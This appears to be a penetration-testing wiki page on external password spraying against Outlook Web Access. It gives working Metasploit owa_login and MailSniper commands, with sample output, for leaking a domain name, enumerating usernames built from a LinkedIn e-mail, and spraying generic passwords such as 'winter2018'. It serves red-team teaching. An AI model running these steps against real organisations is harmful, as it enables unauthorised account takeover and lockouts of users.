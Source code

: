 # Password spraying

## General approach

The technique called password spraying is basically to attempt logins using a valid username and a list of passwords. This technnique is of course not the most reliable and is prone to lockout, but success scales with the amount of usernames obtained. Logins should therebefore be attempted in a very controlled fashion, and across multiple users to avoid lockouts. Password spraying is a technique that falls under [MITRE ATT&CK technique T1110 - Brute force](https://attack.mitre.org/wiki/Technique/T1110).

Password spraying has certain requirements for work. It doesn't matter if its external or internal, the principles stay the same. Most of these elements can be found without too much work.

### **Requirements:**

* An available service to spray to
* Domain name
* Username / e-mail
* Password

### **Tools:**

* [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
* [MailSniper](https://github.com/dafthack/MailSniper)
* [auxiliary/scanner/http/owa\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login)
* [auxiliary/scanner/http/owa\_ews\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_ews_login)

## External password spraying

A domain user is any user in the domain. We of course have to figure out the domain name first. Once you have acquired the domain name, you can try a technique called password spraying. Most enterprises provide numerous ways of authenticating. Common ways are through Outlook Web Access, SMB or other. That means if we can figure out the syntax we can attempt to authenticate with common passwords. However, when spraying passwords beware of lockout tresholds. Many enterprises have a lockout policy after five attempts. BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

### **Step 1 Finding a service to spray**

An OWA portal is very typically located at `mail.example.com` ,`example.com/owa` or similar. Any ADFS integrated portal should in theory work since its all the same AD authentication in the back-end. However, certain tools like MailSniper are built for attacking certain parts of the mail portal, so not all functions may work if its not an OWA.

### **Step 2 Obtain the domain name**

This feature of Metasploit owa\_login module can not only brute force, but it also has the ability to leak domain names. Note that this will be one attempt logged to the username if you have a valid username. Metasploit uses NTLM responses to identify the domain name. If you are really lucky, the helpful sysadmins have written the domain name to the OWA page already. Note that in this attempt, you don't necessarily need a valid user.

```text
use auxiliary/scanner/http/owa_login
set rhost <rhost>
set username <username>
set password <password>
exploit

[+] Found target domain: TESTLAB
```

Alternatively, MailSniper can be used to obtain the domain name using response times.

```text
Invoke-DomainHarvestOWA -ExchHostname testlab.local -DomainList c:\temp\domainlist.txt -OutFile potential-domains.txt

[*] Harvesting Domain Name from the OWA portal at https://testlab.local/owa/
...
[*] Potentially Valid Domain! Domain:TESTLAB
```

### **Step 3 Obtain a valid username or e-mail address**

We got the domain name, now let's try to enumerate ourselves to a username. If we do not have an e-mail or a username, we need to do OSINT or similar to get a username. The alternative would be brute forcing ourselves to  username, which is not really viable. Let's assume for the sake of example we have gotten an e-mail address through LinkedIn, which is not a far fetched scenario at all. Now there are a number of possible syntaxes in a domain, but most follow a few common schemes.  
Let's say his name is Bill Long Money and his e-mail we found on LinkedIn is`bill.money@testlab.biz`  
- First letter of first name + entire last name = `bmoney`  
- First letter of first and last name \(could also involve middle names\) = `bm`  or  `blm`  
- Prefix \(some character usually\) + First letter of first name + entire last name =  `a-bmoney`  
- Full name = `billmoney` \(less common I believe\)

Anyway, we can try the different schemes with a domain name. Usually the owa\_login module is able to verify the validity of accounts without a correct password.  Let's try a spray with a randomly guessed password

```text
use auxiliary/scanner/http/owa_login
set rhost 10.10.10.10
set domain TESTLAB
set username bmoney
set password ilovemoney
exploit

[*] 10.10.10.10:443 OWA - Trying bmoney : ilovemoney
[+] server type: MX01
[*] 10.10.10.10:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.224583728 'TESTLAB\bmoney' : 'ilovemoney': SAVING TO CREDS
[*] Auxiliary module execution completed
```

We we're correct about the username syntax and so we got a valid username. Note that this module uses response time to assess the validity of usernames, so you might get false positives here. It can be worth trying a few usernames you know are invalid to verify.

As before we can also use Mailsniper for this task

```text
Invoke-UsernameHarvestOWA -ExchHostname testlab.corp.local -UserList c:\temp\userlist.txt -Domain TESTLAB -OutFile potential-usernames.txt

[*] Now spraying the OWA portal at https://testlab.local/owa/
...
[*] Potentially Valid! User:TESTLAB\bmoney
```

### Step 4 Perform password spraying

Now when both a domain name and a user name has been acquired we can perform the actual password spraying. The key here is to spray in a controlled manner to prevent lockout. That means to record which users were sprayed, exactly when, what password were tried and how many attempts for each user.

```text
use auxiliary/scanner/http/owa_login
set rhost 10.10.10.10
set domain TESTLAB
set username bmoney
set password ilovemoney
exploit

[*] 10.10.10.10:443 OWA - Trying bmoney : ilovemoney
[+] server type: MX01
[*] 10.10.10.10:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.224583728 'TESTLAB\bmoney' : 'ilovemoney': SAVING TO CREDS
[*] Auxiliary module execution completed
```

Alternatively the spraying can be performed with MailSniper, where the username is entered into `userlist.txt`

```text
Invoke-PasswordSprayOWA -ExchHostname testlab.local -userlist .\userlist.txt -password winter2018

[*] Now spraying the OWA portal at https://testlab.local/owa/

[*] SUCCESS! User:bmoney:winter2018
```

Hooray! We got a valid password. We did this with one user as example, but don't forget that what we want to do here is to spray a lot of users using generic passwords like winter2018 and hope they stick. The larger the userlist, the greater the chance of success.

## Domain password spraying

Password spraying is however not only something you can do externally to find domain users. It can be very useful if you have internal access but no domain user, or to get the credentials ofr higher privileged users when nothing else is working.

More coming soon!

